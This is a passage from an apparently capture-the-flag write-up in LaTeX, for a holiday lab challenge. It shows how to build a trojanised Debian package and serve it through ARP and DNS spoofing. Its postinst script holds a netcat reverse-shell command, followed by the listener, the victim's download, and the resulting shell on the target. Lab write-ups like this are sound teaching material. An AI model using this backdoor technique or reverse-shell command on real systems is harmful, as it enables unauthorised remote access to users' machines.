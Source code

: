 We already know because we tcpdump'd that there's a request coming on port 80.
\begin{verbatim}
guest@bdde251c6a87:~$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.6.6.35 - - [27/Dec/2020 19:35:00] code 404, message File not found
10.6.6.35 - - [27/Dec/2020 19:35:00] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 404 -
\end{verbatim}

We need to put together a .deb file that will trigger us some sort of vuln\footnote{\href{https://www.offensive-security.com/metasploit-unleashed/binary-linux-trojan/}{Here} is a more descriptive way}.
\begin{verbatim}
guest@bdde251c6a87:~/debs$ dpkg -x unzip_6.0-25ubuntu1_amd64.deb work
guest@bdde251c6a87:~/debs$ mkdir work/DEBIAN
guest@bdde251c6a87:~/debs$ cat work/DEBIAN/control
Package: suriv
Version: 6.0
Section: Pwnage
Priority: optional
Architecture: amd64
Maintainer: Ubuntu MOTU Developers (ubuntu-motu@lists.ubuntu.com)
Description: a text-based pwnage
 Grinch and Cindy Lou love you. Now they'll fix your server
 guest@bdde251c6a87:~/debs$ cat work/DEBIAN/postinst
 #!/bin/bash
 # Note that the IP is what's in his cache.
 /usr/bin/netcat 10.6.6.53 1234 -e /bin/bash
 guest@bdde251c6a87:~/debs$ chmod +x work/DEBIAN/postinst
 guest@bdde251c6a87:~/debs$ dpkg-deb --build work/
 guest@bdde251c6a87:~/debs$ mkdir -p pub/jfrost/backdoor/
 guest@bdde251c6a87:~/debs$ mv work.deb pub/jfrost/backdoor/suriv_amd64.deb
\end{verbatim}

Alright, time to get a shell. We need to fire our two scripts, the server and have a listening backdoor.

\begin{verbatim}
guest@53ee527cbffd:~/debs$ nc -nvlp 1234 &
guest@53ee527cbffd:~/debs$ python3 -m http.server 80 &
guest@53ee527cbffd:~/debs$ python3 ../scripts/dns_resp.py &
guest@53ee527cbffd:~/debs$ python3 ../scripts/arp_resp.py
.
Sent 1 packets.
.
Sent 1 packets.
10.6.6.35 - - [27/Dec/2020 20:17:01] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 200 -
guest@53ee527cbffd:~/debs$ connect to [10.6.0.2] from (UNKNOWN) [10.6.6.35] 54298
guest@53ee527cbffd:~/debs$ fg
nc -nvlp 1234
whoami
jfrost
cat /N*.txt
\end{verbatim}
Tanta Kringle was the answer. As a bonus, you can actually transfer the file to host. 
